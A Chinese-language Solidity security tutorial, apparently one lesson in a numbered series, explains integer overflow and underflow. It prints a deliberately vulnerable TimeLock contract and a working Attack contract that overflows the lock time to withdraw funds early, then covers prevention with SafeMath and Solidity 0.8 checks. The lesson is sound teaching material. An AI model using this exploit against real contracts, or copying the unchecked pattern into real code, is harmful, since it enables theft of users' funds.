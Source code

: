 # 67.Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


这个合约被设计成一个时间保险箱。
用户可以向此合约存款，但至少需要等待一周后才能取款。
用户也可以延长等待时间超过一周。

1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太币。您将立即能够取回您的以太币。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8版本中算术操作在下溢和溢出时都会恢复。你可以使用 unchecked { ... } 来使用以前的包装行为。

溢出的检查是非常普遍的，所以我们把它作为默认的检查， 以增加代码的可读性，即使它是以略微增加gas成本为代价的。

## remix验证
1. 部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.jpg](img/67-1.jpg)
